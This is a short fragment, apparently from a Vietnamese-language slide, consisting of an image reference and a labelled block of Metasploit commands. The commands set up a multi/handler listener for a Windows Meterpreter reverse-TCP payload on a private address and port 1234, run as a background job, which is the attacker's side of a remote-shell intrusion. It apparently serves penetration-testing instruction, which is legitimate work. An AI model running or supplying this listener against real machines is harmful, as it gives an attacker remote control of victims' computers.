

Lệnh: use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lport 1234
set lhost 10.0.0.199
exploit -j